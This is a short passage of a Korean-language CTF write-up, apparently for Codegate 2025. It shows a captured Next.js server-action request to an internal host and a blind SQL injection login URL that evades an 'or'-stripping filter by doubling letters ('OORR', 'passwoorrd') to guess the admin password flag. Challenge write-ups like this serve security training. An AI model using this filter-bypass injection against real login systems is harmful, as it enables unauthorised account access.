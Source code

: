 ```tsx
});

```

```
POST / HTTP/1.1
Host: 13.124.66.200:56712
Content-Length: 4
User-Agent: Mozilla/5.0 ...
Next-Action: 6e6feac6ad1fb92892925b4e3766928a754aec71
Accept-Language: ko-KR,ko;q=0.9
Accept: text/x-component
Content-Type: text/plain;charset=UTF-8
Origin: http://13.124.66.200:56712
Referer: http://15.165.37.31:3000/
Connection: keep-alive

[]
```

그러면 내부망에 접속할 수 있고 url을 통해서 로그인을 할 수 있습니다. 로그인을 여러 방법으로 시도해보던 중 sql injection이 가능하다는 것을 알게 되어서 admin 계정으로 로그인하였습니다.

admin 계정으로 로그인을 하면 아래의 message가 나와 blind sql injection을 진행하면 flag를 알 수 있습니다.

```
{"message":"Welcome! admin, Flag is your password."}
```

```
http://192.168.200.120:808/login?username='/**/OORR/**/passwoorrd%20like%20'codegate2025%7B8...%25'/**/OORR/**/passwoorrd%20like%20'gu%25'%23--&password=guest&key=392cc52f7a5418299a5eb22065bd1e5967c25341
```

or을 제거하는 로직이 들어있어 oorr를 사용해서 우회했습니다.